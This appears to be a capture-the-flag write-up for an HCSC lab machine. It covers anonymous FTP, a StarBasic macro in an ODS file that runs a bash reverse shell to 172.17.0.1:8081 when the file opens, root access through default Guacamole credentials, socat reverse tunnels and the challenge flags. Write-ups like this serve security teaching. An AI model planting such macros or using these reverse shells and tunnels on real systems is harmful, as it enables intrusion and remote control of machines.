







# Services

There were 2 ports given this time. The ports are running the usual services, HTTP and FTP on the default ports.

The webserver serves a maintenance message after a cyber incident.



The FTP server can be accessed anonymously. 

In the `to_process` folder a script is processing the files and the resulting report is dropped in the `process_result` folder. Every extension is processed. There are interesting results already in the output folder that might be the leftover of the attack above. Those files have bash outputs and the `to_process` folder has a stuck example.

# Excel VBA

Analyzing the [test2.ods](workdir/malwares.zip) file, it has a script/macro. The ods format is just a zip, where the macro is simple text: `test2.ods.zip\Basic\Standard\Module1.xml`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="Module1" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****
 
 
    Sub OnLoad
      Dim os as string
      os = GetOS
      If os = "windows" OR os = "osx" OR os = "linux" Then
        Exploit
      end If
    End Sub
 
    Sub Exploit
      Shell("/bin/bash -i >& /dev/tcp/172.17.0.1/8081 0>&1")
    End Sub
 
    Function GetOS() as string
      select case getGUIType
        case 1:
          GetOS = "windows"
        case 3:
          GetOS = "osx"
        case 4:
          GetOS = "linux"
      end select
    End Function
 
    Function GetExtName() as string
      select case GetOS
        case "windows"
          GetFileName = "exe"
        case else
          GetFileName = "bin"
      end select
    End Function
    
</script:module> 

```

The previous attack can be reused and the command can be replaced with our favorite reverse shell. The other folders can be used to upload other executables for example.



# Flag local
`{HCSC}-LocaLFl4G!F0r_Tanu;`

# RDP service

There are other services running on port `3000` and `3389` as root.



On port `3000`, it is a `Guacamole Client` web based remote desktop client (`/gclient/app.js`, `/usr/sbin/guacd`).



The `/gclient/`[app.js](workdir/gclient/app.js) file is readable.

```
// LinuxServer Guacamole Client
 
//// Env variables ////
var CUSTOM_PORT = process.env.CUSTOM_PORT || 3000;
var CUSTOM_USER = process.env.CUSTOM_USER || 'abc';
var PASSWORD = process.env.PASSWORD || 'abc';
var RDP_HOST = process.env.RDP_HOST || '127.0.0.1';
var RDP_PORT = process.env.RDP_PORT || '3389';
var AUTO_LOGIN = process.env.AUTO_LOGIN || null;
var SUBFOLDER = process.env.SUBFOLDER || '/';
var TITLE = process.env.TITLE || 'Guacamole Client';
var CYPHER =process.env.CYPHER || 'LSIOGCKYLSIOGCKYLSIOGCKYLSIOGCKY';
var FM_NO_AUTH = process.env.FM_NO_AUTH || 'false';
var FM_HOME = process.env.FM_HOME || '/config';
var KEYBOARD = process.env.KEYBOARD || 'en-us-qwerty';
```

On port 3389 it is probably a regular remote desktop running (`/usr/sbin/xrdp`).

Using the `abc:abc` credentials from the Guacamole config file logs us in as root.



There are some other connection information in `/root/cassandra_conn.info`, but was not used anywhere.

# Flag root
`{HCSC};R0oTFl@G[4]!Tanu`

# Tunnel

The port `3000` used by the Guacamole Client can not be accessed from the outside. With `socat` or similar, a tunnel can be built with an outgoing tcp connection (TCP Gender Changer).

```bash
# Attacker
sudo socat TCP-LISTEN:8888,reuseaddr,fork TCP-LISTEN:81,reuseaddr
# Client Guacamole
/srv/hcsc/ftp/socat TCP:10.8.0.15:81,forever,interval=1,fork TCP:localhost:3000
# Client RDP
/srv/hcsc/ftp/socat TCP:10.8.0.15:81,forever,interval=1,fork TCP:localhost:3389 
```

Afterwards on port `8888` on the attacker machine, the service can be accessed. The Guacamole was good, as it already logs us in with the user.



